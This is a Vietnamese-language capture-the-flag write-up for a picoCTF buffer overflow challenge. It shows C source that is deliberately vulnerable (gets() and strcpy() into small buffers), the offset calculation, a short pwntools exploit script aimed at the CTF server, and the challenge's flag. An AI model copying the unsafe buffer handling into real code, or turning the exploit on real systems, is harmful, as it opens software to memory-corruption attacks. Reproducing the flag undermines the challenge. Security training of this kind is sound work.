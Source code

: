 **#1. Tìm lỗi**
   Ta có file source như sau:

`#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <signal.h>

#define FLAGSIZE_MAX 64

char flag[FLAGSIZE_MAX];

void sigsegv_handler(int sig) {
  printf("%s\n", flag);
  fflush(stdout);
  exit(1);
}

void vuln(char *input){
  char buf2[16];
  strcpy(buf2, input);
}

int main(int argc, char **aragv){
  
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }
  
  fgets(flag,FLAGSIZE_MAX,f);
  signal(SIGSEGV, sigsegv_handler); // Set up signal handler
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);


  printf("Input: ");
  fflush(stdout);
  char buf1[100];
  gets(buf1); 
  vuln(buf1);
  printf("The program will exit now\n");
  return 0;
}`

   Đọc qua file source thì ta thấy có câu lệnh gets và hàm sigsegv_handler(hàm lấy flag) -> Nghĩ ngay đến lỗi bof
   Sử dụng lệnh 'checksec' thì ta thấy CANARY đang ở trạng thái disabled -> Có thể khai thác qua lỗi bof
   ![checksec.png](photo/checksec.png)

**2. Ý tưởng**

   Chúng ta sẽ nhập tràn biến buf1 nhờ lệnh gets đến ret rồi chèn địa chỉ hàm sigsegv_handler vào

**3. Viết script**

   Sử dụng lệnh 'file' kiểm tra file thực thi
   ![file.png](photo/file.png)
   Ta thấy là file 32bit
   ![buf1.png](photo/buf1.png)
   Địa chỉ hiện tại của buf1 là: ebp - 0x74 -> Khoảng cách từ buf1 đến ret là: 0x74 + 0x4 = 120
   ![function_flag.png](photo/function_flag.png)
   Ta có địa chỉ hàm sigsegv_handler là: 0x5655630d
   Vậy ta có script như sau: 

`from pwn import *

r = remote("saturn.picoctf.net", 65355)

payload = b'a'*120 + p32(0x5655630d)
r.sendline(payload)
r.interactive()`

**4. Lấy flag**

   ![flag.png](photo/flag.png)
   Flag: picoCTF{ov3rfl0ws_ar3nt_that_bad_34d6b87f}